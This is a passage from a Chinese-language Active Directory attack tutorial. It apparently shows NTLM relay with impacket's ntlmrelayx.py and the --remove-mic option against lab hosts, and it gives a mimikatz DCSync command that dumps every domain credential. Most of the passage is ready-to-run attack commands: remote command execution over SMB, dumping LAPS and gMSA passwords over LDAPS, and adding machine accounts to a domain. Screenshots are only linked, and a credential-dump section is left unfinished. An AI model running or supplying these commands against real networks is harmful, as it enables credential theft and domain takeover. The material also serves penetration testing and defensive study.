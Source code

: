 ![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220215113343-0zmelch.png)

mimikatz

```bash
lsadump::dcsync /all
```

### Cred Dump

敬请期待

[https://github.com/SecureAuthCorp/impacket/pull/1253](https://github.com/SecureAuthCorp/impacket/pull/1253)


### EXEC

```bash
python3 ntlmrelayx.py -t smb://10.10.10.15 --remove-mic -c whoami
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220219230123-oqwtqjn.png)

### 枚举信息

```bash
python3 ntlmrelayx.py -t ldaps://10.10.10.10 -debug --dump-laps --dump-gmsa --remove-mic
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220219231301-lkb12xc.png)

### 创建用户（LDAPS）

#### 添加机器账户

域有个属性`ms-DS-MachineAccountQuota` 他标志着非特权用户最多添加多少机器账户到域内。默认为10。

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220219233947-j2x8khq.png)

```bash
python3 ntlmrelayx.py -t ldaps://10.10.10.10 --add-computer testpc$ --remove-mic
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220219234415-6pv0p08.png)

#### 添加普通用户

需要高权限账户（比如说域管）才可以，

```bash
python3 ntlmrelayx.py -t ldaps://10.10.10.10 --remove-mic
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220219234733-4hm6ef9.png)
